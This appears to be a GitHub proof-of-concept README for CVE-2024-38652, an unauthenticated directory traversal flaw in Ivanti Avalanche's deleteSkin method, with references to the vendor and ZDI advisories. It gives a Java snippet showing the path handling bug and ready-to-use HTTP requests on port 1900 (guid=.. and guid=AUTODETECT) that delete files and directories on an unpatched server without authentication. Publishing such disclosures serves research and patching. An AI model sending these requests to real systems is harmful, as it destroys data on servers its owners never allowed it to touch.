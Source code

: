 ## CVE-2024-38652
## VULNERABILITY DETAILS	

Ivanti Avalanche deleteSkin Directory Traversal Arbitrary File Deletion Vulnerability

This vulnerability allows remote attackers to delete arbitrary files on affected installations of Ivanti Avalanche. Authentication is not required to exploit this vulnerability.

The specific flaw exists within the deleteSkin method. The issue results from the lack of proper validation of a user-supplied path prior to using it in file operations. An attacker can leverage this vulnerability to delete files in the context of SYSTEM.

## VULNERABILITY
Ivanti Avalanche premise 6.3.1.1507 (tested)

Check C:\Program Files\Wavelink\Avalanche\RemoteControl\lib\RemoteControlServer.jar

com.wavelink.remotecontrol.server.servlets.SkinsServlet


## Example code
```
import java.io.File;
class HelloWorld {
    public static void main(String[] args) {
        File file = new File("", "..");
        System.out.println(file.getName());
        file = new File("./web/skins",file.getName());
        System.out.println(file);
    }
}
```
![image](https://github.com/user-attachments/assets/14a033a3-4a5d-4a84-9222-18646cd24f13)
![image](https://github.com/user-attachments/assets/df443415-48ba-46c3-90e7-c5d903774441)


## CVE-2024-38652-Poc

Request /Servlet/Skins?action=deleteSkin&guid=.. endpoint unauthenticated
```
<Host>:1900/Servlet/Skins?action=deleteSkin&guid=..
```
https://github.com/user-attachments/assets/d618690b-2a8a-472f-9d12-2cab703e6eb4



There is also a unauthenticated endpoint ``` <Host>:1900/app/rc?cmd=deleteSkin&guid={{directory}} ``` but have a valid directory check

Delete directory AUTODETECT with: ``` <Host>:1900/app/rc?cmd=deleteSkin&guid=AUTODETECT ```

directory AUTODETECT is default in C:\Program Files\Wavelink\Avalanche\RemoteControl\web\skins

Check file C:\Program Files\Wavelink\Avalanche\RemoteControl\app.war

com.wavelink.remotecontrol.app.servlets.RCServlet

## References:
- https://forums.ivanti.com/s/article/Security-Advisory-Ivanti-Avalanche-6-4-4-CVE-2024-38652-CVE-2024-38653-CVE-2024-36136-CVE-2024-37399-CVE-2024-37373?language=en_US
- https://www.zerodayinitiative.com/advisories/ZDI-24-1149/
